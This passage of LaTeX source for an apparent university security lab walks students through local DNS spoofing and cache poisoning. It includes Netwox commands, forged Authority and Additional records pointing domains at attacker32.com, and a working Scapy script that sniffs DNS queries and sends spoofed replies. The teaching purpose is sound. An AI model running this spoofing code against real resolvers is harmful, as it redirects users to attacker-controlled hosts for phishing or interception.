
\includegraphics[width=1.0\textwidth]{\dnsFigs/attack_server_local.pdf}
\caption{Local DNS Poisoning Attack}
\label{dns:fig:local_attack}
\end{figure}


When a user types the name of a web site (a host name, such as {\tt
www.example.net})
in a web browser, the user's computer will issue a DNS request to the DNS 
server to resolve the IP address of the host name.  After hearing this DNS 
request, the attackers can spoof a fake DNS response (see
Figure~\ref{dns:fig:local_attack}). 
The fake DNS response 
will be accepted by the user's computer if it meets 
the following criteria:

\begin{enumerate}

\item The source IP address must match the IP address of the DNS server.

\item The destination IP address must match the IP address of the user's machine.

\item The source port number (UDP port) must match the port number that the DNS
request was sent to (usually port 53).

\item The destination port number must match the port number that the DNS
request was sent from.

\item The UDP checksum must be correctly calculated. 

\item The transaction ID must match the transaction ID in the DNS request.

\item The domain name in the question section of the reply must match the 
domain name in the question section of the request.

\item The domain name in the answer section must match the domain name in the
question section of the DNS request.

\item The User's computer must receive the attacker's DNS reply before it
receives the legitimate DNS response.
\end{enumerate}


To satisfy the criteria 1 to 8, the attackers can sniff the DNS request message
sent by the victim; they can then create a fake DNS response, and send back to the victim,
before the real DNS server does. {\tt Netwox} tool \texttt{105} provide a utility to conduct
such sniffing and responding.
We can make up any arbitrary DNS answer
in the reply packets. Moreover, we can use the ``filter'' field to specify what
kind of packets to sniff. For example, by using
\texttt{"src host 10.0.2.18"}, we can limit the scope of our
sniffing to packets only from host \texttt{10.0.2.18}.  The manual of the
tool is described in the following:

\begin{lstlisting}[caption={The usage of the Netwox Tool 105}]
Title: Sniff and send DNS answers
    Usage: netwox 105 -h data -H ip -a data -A ip [-d device]
                     [-T uint32] [-f filter] [-s spoofip]
    Parameters:
    -h|--hostname data    hostname
    -H|--hostnameip ip    IP address
    -a|--authns data      authoritative nameserver
    -A|--authnsip ip      authns IP
    -d|--device device    device name
    -T|--ttl uint32       ttl in seconds
    -f|--filter filter    pcap filter
    -s|--spoofip spoofip  IP spoof initialization type
\end{lstlisting}


While the attack program is running, on the user machine, you can
run \texttt{dig} command on behalf of the user.
This command triggers the user
machine to send out a DNS query to the local DNS server, which will
eventually send out a DNS query to the authoritative nameserver of the
\texttt{example.net} domain (if the cache does not contain the answer).
If your attack is successful, you should be able to see
your spoofed information in the reply. Compare your results obtained before
and after the attack. 




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 6: DNS Cache Poisoning Attack}

The above attack targets the user's machine. In order to achieve long-lasting
effect, every time the user's machine sends out a DNS query for
\url{www.example.net}
the attacker's machine must send out a spoofed DNS response. 
This might not be so efficient; there is a much better way to conduct attacks 
by targeting the DNS server, instead of the user's machine.


When a DNS server \apollo receives a query, if the host name is not within the 
\apollo's domain,
it will ask other DNS servers to get the host name resolved. Note that in
our lab setup, the domain of our DNS server is {\tt example.com}; therefore,
for the DNS queries of other domains (e.g. \texttt{example.net}), the DNS server
\apollo will ask other DNS servers.
However, before \apollo asks other DNS servers, it first looks 
for the answer from its own cache; if the answer is there, 
the DNS server \apollo will simply reply with the information from its cache. 
If the answer is not in the cache, the DNS server will 
try to get the answer from other DNS servers. When \apollo gets the 
answer, it will store the answer in the cache, so next time, 
there is no need to ask other DNS servers. See Figure~\ref{dns:fig:local_attack}. 

Therefore, if attackers can spoof the response from other DNS 
servers, \apollo will keep the spoofed response in its cache for 
certain period of time. Next time, when a user's machine wants to resolve the 
same host name, \apollo will use the spoofed response in the cache 
to reply. This way, attackers only need to spoof once, and 
the impact will last until the cached information expires. 
This attack is called {\em DNS cache poisoning}.  


We can use the same tool (\texttt{Netwox 105}) for this attack. Before attacking, 
make sure that the DNS Server's cache is empty. 
You can flush the cache using the following command:

\begin{lstlisting}[backgroundcolor=]
$ sudo rndc flush
\end{lstlisting}

The difference between this attack and the previous attack is that 
we are spoofing the response to
DNS server now, so we set the {\tt filter} field to 
\texttt{"src host 192.168.0.10"}, 
which is the IP address of the DNS server.
We also use the {\tt ttl} field (time-to-live) 
to indicate how long we want the fake answer to 
stay in the DNS server's cache.  After the DNS server is poisoned, we can stop 
the {\tt Netwox 105} program. If we set {\tt ttl} to 600 (seconds), then DNS server will keep 
giving out the fake answer for the next 10 minutes.

Note: Please select the {\tt raw} in the {\tt spoofip} field; 
otherwise, {\tt Netwox 105} will
try to also spoof the MAC address for the spoofed IP address. To get
the MAC address, the tool sends out an ARP request, asking for the MAC
address of the spoofed IP.
This spoofed IP address is usually the IP address of an external
DNS server, which is not on the same LAN. Therefore,
nobody will reply the ARP request. The tool will wait for the ARP reply
for a while before going ahead without the MAC address.
The waiting will delay the tool from sending out the spoofed 
response. If the actual DNS response comes earlier than the spoofed response,
the attack will fail. That's why you need to ask the tool not to spoof the 
MAC address.


You can tell whether the DNS server is poisoned or not by observing the DNS
traffic using {\tt Wireshark} when you run the \texttt{dig} command 
on the target hostname. You should also dumping the local DNS server's cache 
to check whether the spoofed reply is cached or not. 
To dump and view the DNS server's cache, issue the following command:


\begin{lstlisting}
$ sudo rndc dumpdb -cache
$ sudo cat /var/cache/bind/dump.db
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 7: DNS Cache Poisoning: Targeting the Authority Section}

In the previous task, our DNS cache poisoning attack only affects 
one hostname, i.e., \url{www.example.net}. If users try to get the IP
address of another hostname, such as \url{mail.example.net}, we 
need to launch the attack again. It will be more efficient if we launch one
attack that can affect the entire \texttt{example.net} domain.  

The idea is to use the Authority section in DNS replies. 
Basically, when we spoofed a reply, in addition to spoofing the answer (in
the Answer section), we add the following in the Authority section.
When this entry is cached by the local DNS server, \url{ns.attacker32.com}
will be used as the nameserver for future queries of 
any hostname in the \texttt{example.net} domain.  Since 
\url{attacker32.com} is a machine controlled by attackers, it can
provide a forged answer for any query.

\begin{lstlisting}
;; AUTHORITY SECTION:
example.net.            259200  IN      NS       attacker32.com.
\end{lstlisting}
 
 
The purpose of this task is to conduct such as an attack. You need to
demonstrate that you can get the above entry cached by the local DNS 
server. After the cache is poisoned, run a \texttt{dig} command 
on any hostname in the \url{example.net} domain, and use 
Wireshark to observe where the DNS query goes. 
It should be noted that the \url{attacker32.com} is owned by
Wenliang Du, the author of the SEED labs, but this 
machine is not set up to serve as a DNS server. Therefore, you will not be
able to get a answer from it, but your Wireshark traffic should 
be able to tell you whether your attack is successful or not.


You need to use Scapy for this task. See the Guideline section for 
a sample code. 


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 8: Targeting Another Domain} 

In the previous attack, we successfully poison the cache of the local DNS
server, so \texttt{attacker32.com} becomes the nameserver for the 
\texttt{example.com} domain. Inspired by this success, we would like to 
extend its impact to other domain. Namely, 
in the spoofed response triggered by a query for
\url{www.example.net}, we would like to add additional entry
in the Authority section (see the following), so
\url{attacker32.com} is also used as the nameserver for 
\texttt{google.com}.  


\begin{lstlisting}
;; AUTHORITY SECTION:
example.net.            259200  IN      NS       attacker32.com.
google.com.             259200  IN      NS       attacker32.com.
\end{lstlisting}

Please use Scapy to launch such an attack on your local DNS server;
describe  and explain your observation. It should be noted that the query
that we are attacking is still the query to \texttt{example.net}, not one
to \texttt{google.com}.  



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 9: Targeting the Additional Section}

In DNS replies, there is section called Additional Section, which is used
to provide additional information. In practice, it is mainly used to
provide IP addresses for some hostnames, especially for those appearing in the
Authority section. The goal of this task is to spoof some entries 
in this section and see whether they will be successfully cached by the
target local DNS server. In particular, when responding to 
the query for \texttt{www.example.net}, we add the following entries 
in the spoofed reply, in addition to the entries in the Answer section:


\begin{lstlisting}
;; AUTHORITY SECTION:
example.net.            259200  IN   NS   attacker32.com.
example.net.            259200  IN   NS   ns.example.net.

;; ADDITIONAL SECTION:
attacker32.com.         259200  IN   A    1.2.3.4   (*@\ding{192}@*)
ns.example.net.         259200  IN   A    5.6.7.8   (*@\ding{193}@*)
www.facebook.com.       259200  IN   A    3.4.5.6   (*@\ding{194}@*)
\end{lstlisting}

Entries \ding{192} and \ding{193} are related to the hostnames in
the Authority section. Entry \ding{194} is completely irrelevant to
any entry in the reply, but it provides a ``gracious'' help to
users, so they do not need to look up for the IP address
of Facebook. Please use Scapy to spoof such a DNS reply. Your job is
to report what entries will be successfully cached, and what entries will
not be cached; please explain why. 
 

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{What's Next}


In the DNS cache poisoning attack of this lab, 
we assume that the attacker and the DNS server are on
the same LAN, i.e., the attacker can observe the DNS query message.
When the attacker and the DNS server are not on the same LAN,
the cache poisoning attack becomes much more challenging. If you
are interested in taking on such a challenge, you can 
try our ``Remote DNS Attack Lab''.




% *******************************************
% SECTION
% ******************************************* 
\section{Guideline}


You need to use Scapy for several tasks in this lab. The following sample code shows how to
sniff a DNS query and then spoof a DNS reply, which contains 
a record in the Answer section, two records in the Authority section and two
records in the Additional section.  


\begin{lstlisting}
#!/usr/bin/python
from scapy.all import *
 
def spoof_dns(pkt):
  if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):

    # Swap the source and destination IP address
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    # Swap the source and destination port number 
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',               
                 ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns1.example.net')
    NSsec2 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns2.example.net')

    # The Additional Section
    Addsec1 = DNSRR(rrname='ns1.example.net', type='A', 
                    ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='ns2.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,     (*@\ding{192}@*)
                 qdcount=1, ancount=1, nscount=2, arcount=2,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().                		
pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
\end{lstlisting}
 

Line~\ding{192} constructs the DNS payload, including DNS header and data. Each field 
of the DNS payload is explained in the following:

 
\begin{itemize}[noitemsep]
\item \texttt{id}: Transaction ID; should be the same as that in the request.
\item \texttt{qd}: Query Domain; should be the same as that in the Request.
\item \texttt{aa}: Authoritative answer (1 means that the answer contains Authoritative answer).
\item \texttt{rd}: Recursion Desired (0 means to disable Recursive queries).
\item \texttt{qr}: Query Response bit (1 means Response).
\item \texttt{qdcount}: number of query domains. 
\item \texttt{ancount}: number of records in the Answer section.
\item \texttt{nscount}: number of records in the Authority section. 
\item \texttt{arcount}: number of records in the Additional section. 
\item \texttt{an}: Answer section 
\item \texttt{ns}: Authority section
\item \texttt{ar}: Additional section
\end{itemize}
  


% *******************************************
% SECTION
% ******************************************* 
\section{Submission}


\seedsubmission
 

\end{document}
